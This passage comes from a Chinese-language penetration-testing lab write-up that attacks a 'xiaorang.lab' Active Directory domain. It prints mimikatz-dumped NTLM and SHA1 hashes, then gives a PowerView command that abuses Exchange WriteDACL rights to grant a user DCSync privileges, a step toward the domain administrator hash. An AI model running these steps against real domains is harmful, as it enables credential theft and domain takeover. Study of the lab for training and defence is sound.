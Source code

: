 [![](assets/1709193375-a7c1c2740b985c2939eb81d1e5d23de0.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240227205102-dd18b32c-d56e-1.png)

```plain
* Username : XIAORANG-EXC01$
 * Domain   : XIAORANG
 * NTLM     : 88f4cf50b8ecdb0cf5bfe4e24768c3e1
 * SHA1     : c6f3c7b125491ffad07945f560d1ce8bb1e334dc

 * Username : Zhangtong
 * Domain   : XIAORANG
 * NTLM     : 22c7f81993e96ac83ac2f3f1903de8b4
 * SHA1     : 4d205f752e28b0a13e7a2da2a956d46cb9d9e01e
 * DPAPI    : ed14c3c4ef895b1d11b04fb4e56bb83b
```

这里我们要进行分析域内账户关系，发现账户是隶属于`Exchange Windows Permissions`这个组中，而这个组具有 write 域内 acl 权限，可以通过`mimikatz`拿到的域内用户`Zhangtong的dcsync属性`，接下来我们要思考如何去获取`管理员hash`

### dcsync 操作获取域用户

这里也可以启动`BloodHound` 来分析，太累了留着后面弄  
通过`Write DACL`权限可以直接修改用户权限，以`Zhangtong`的身份给添加 DCSync 权限\`

> powershell -command "cd C:/Users/test/Desktop/; Import-Module .\\powerview.ps1; Add-DomainObjectAcl -TargetIdentity 'DC=xiaorang,DC=lab' -PrincipalIde Zhangtong -Rights DCSync -Verbose"
